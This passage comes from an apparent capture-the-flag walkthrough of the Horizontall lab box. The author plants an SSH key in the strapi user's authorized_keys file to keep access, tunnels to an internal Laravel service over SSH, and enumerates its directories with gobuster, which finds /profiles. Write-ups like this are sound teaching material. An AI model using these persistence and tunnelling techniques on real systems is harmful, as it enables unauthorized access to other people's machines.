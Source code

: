     

And based on the response and the cookies, it looks like Laravel, a PHP
framework.

#### Access Page

the strapi user’s home directory is `/opt/strapi`, I can still add a `.ssh`
directory and an `authorized_keys` file. I’ll add my key:

    
    
    strapi@horizontall:~$ mkdir .ssh
    strapi@horizontall:~$ cd .ssh/
    strapi@horizontall:~/.ssh$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> authorized_keys 
    

Now I can SSH to the box, and use that to tunnel port 8000 on my localbox to
port 8000 on Horizontall:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen strapi@10.10.10.125 -L 8000:localhost:8000
    ...[snip]...
    $
    

#### Page

Visiting the page with FireFox works now, but it’s just the default Laravel
page:

![image-20210802142559157](https://0xdfimages.gitlab.io/img/image-20210802142559157.png)

Running `feroxbuster` against it didn’t return anything. Eventually, knowing
there had to be some reason for this site existing, I tried `gobuster`, and it
found `/profiles`:

    
    
    oxdf@hacky$ gobuster dir -u http://127.0.0.1:8000 -w /usr/share/seclists/Discovery/W
    eb-Content/raft-medium-directories.txt
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://127.0.0.1:8000
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    2021/08/02 14:27:16 Starting gobuster in directory enumeration mode===============================================================
    /profiles             (Status: 500) [Size: 616206]
    ...[snip]...
    